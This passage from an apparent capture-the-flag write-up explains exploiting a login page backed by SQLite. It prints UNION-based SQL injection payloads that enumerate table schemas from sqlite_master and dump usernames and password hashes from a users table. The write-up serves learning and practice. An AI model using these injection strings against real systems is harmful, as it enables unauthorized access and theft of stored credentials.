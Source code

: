 ![](images/loginpage3b.PNG)

&nbsp;

#### Dumping Password Hashes

We know from the challenge description that the database is running sqlite. Using google we can easily find a command that
lists all the tables and their schemas:
```
" UNION SELECT name, sql FROM sqlite_master WHERE type='table' --
```
![](images/loginpage4.PNG)

From the output we can infer there is only one table `users`. Looking into the schema of the table:
```sqlite
CREATE TABLE users (
    username text primary key not null, 
    password_hash text not null, 
    hint text not null, 
    bio text not null
)
```
There seems to be an interesting field `password_hash`. We can write a query to dump that:
```
" UNION SELECT username, password_hash FROM users; --
```